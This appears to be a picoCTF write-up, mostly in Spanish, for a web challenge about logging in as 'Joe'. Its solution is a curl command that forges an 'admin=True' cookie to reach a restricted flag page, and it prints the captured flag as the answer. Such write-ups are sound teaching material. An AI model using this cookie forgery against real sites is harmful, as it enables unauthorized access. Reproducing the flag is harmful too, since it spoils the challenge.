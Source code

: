 ## Descripcion.
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594.

## Pistas.
Hmm it doesn't seem to check anyone's password, except for Joe's?.

## Solucion.
``` bash
pp4rg4-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
p4rg4-picoctf@webshell:~$

```

## Bandera.
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

## Notas Adicionales.
La bandera del reto se encontraba en las cookies de la página en donde no teníamos los permisos para poder ver la bandera ya que el permiso de administrador está puesto en falso por lo que yéndonos a la terminal ingresamos la palabra curl - s seguido del link de la página en donde especificamos que en la Cookie en la de administrador queremos que sea verdadero y seguido de un grep de la palabra pico para poder encontrar la bandera (curl -s https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico).